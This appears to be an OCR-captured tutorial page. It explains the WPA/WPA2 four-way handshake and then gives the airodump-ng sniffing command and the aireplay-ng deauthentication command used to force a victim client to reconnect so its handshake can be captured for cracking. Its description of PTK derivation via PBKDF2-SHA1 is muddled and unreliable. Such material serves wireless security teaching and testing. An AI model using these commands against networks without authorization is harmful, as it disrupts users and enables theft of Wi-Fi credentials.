 ### The Four-Way Handshake
- When a new client wants to join a WPA/WPA2 protected network, it must first authenticate itself, proving it owns the shared key.

#### Step by Step

0. The shared passphrase is used to generate the PMK (Pairwire Master Key). This key is 256 bits long. Both the STA and AP independently calculate this value combining the PSK and SSID name.
```
STA > calculates PMK
AP   > calculates PMK
```

1. The AP sends the STA a message containing a nonce, a secure cryptographic random number. In the WPA specification, this number is called ANonce (as Authenticator Nonce)
```
AP > sends ANonce > STA
```

2. STA generates another nonce, called SNonce (Supplicant Nonce), and builds the PTK concatenating the PMK, both nonces, the MAC addresses of AP and STA and processing this product through a cyptographic hash function called PBKDF2-SHA1
```
STA builds the PTK
```

3. STA then sends its SNonce to the AP that can now build the PTK. As it uses the same information, both PTKs will be the same without the original PSK ever being transmitted over the air. This third message also contains a MIC (Message Integrity Code) which is used to authenticate the sending STA.
```
SNonce + MIC > AP builds the PTK
```

4. The AP replies back with a message containing the GTK (Group Temporal Key) used to decrypt multicast and broadcast traffic. This message is also authenticated by means of MIC. An acknowledgment concludes the process.
```
AP > replies GTK + MIC
STA > sends ack to conclude the process > AP
```


#### Capture the Handshake
Launch airodump and start sniffing on the correct channel:
```
airodump-ng -w <outfile> -c <channel> <interface>
```

> ps: If we wanted to perform a totally passive attack, we could have waited For a new client to join the network but this could require a lot of time.

Write down the client MAC address and launch the deauth attack against it:
```
aireplay-ng -0 1 -a <BSSID> -c <client_mac> <interface>
```

> If the victim STA is inside the reachable area of your wireless card, it will be forced to rejoin the network and you should be able to get a new 4-way handshake
After getting the handshake its time to crack it.
